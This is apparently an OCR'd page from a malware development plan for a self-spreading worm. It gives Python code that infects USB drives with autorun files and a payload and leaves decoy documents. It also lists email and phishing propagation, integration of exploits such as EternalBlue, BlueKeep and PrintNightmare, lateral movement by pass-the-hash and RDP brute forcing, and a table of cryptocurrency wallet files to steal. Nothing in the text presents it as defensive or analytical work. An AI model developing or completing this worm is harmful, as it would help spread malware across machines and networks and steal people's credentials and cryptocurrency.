 ### 2. Improved Propagation Mechanisms

#### A. USB/Removable Drive Infection
```python
async def infect_usb_drives():
    """Monitor and infect USB drives"""
    while True:
        for drive in get_removable_drives():
            if not is_infected(drive):
                # Copy worm as autorun
                create_autorun_inf(drive)
                copy_payload(drive)
                # Create decoy files
                create_decoy_documents(drive)
```

#### B. Email Propagation
- Outlook automation
- SMTP direct sending
- Phishing template generation
- Contact harvesting from multiple sources

#### C. Exploit Integration
- MS17-010 (EternalBlue)
- MS08-067 (Conficker)
- BlueKeep (CVE-2019-0708)
- PrintNightmare (CVE-2021-34527)

#### D. Network Pivoting
```python
def lateral_movement():
    """Advanced lateral movement"""
    # PSExec-style execution
    # WMI remote execution
    # RDP brute forcing
    # Pass-the-hash attacks
```

### 3. Enhanced Data Collection

#### A. Cryptocurrency Wallet Theft
```python
wallet_paths = {
    'Bitcoin': ['wallet.dat', 'bitcoin.conf'],
    'Ethereum': ['keystore/*'],
    'Exodus': ['exodus.wallet/*'],
    'MetaMask': ['Local Extension Settings/*'],
    'Binance': ['app-store.json'],
    'Coinbase': ['*'],
}
```
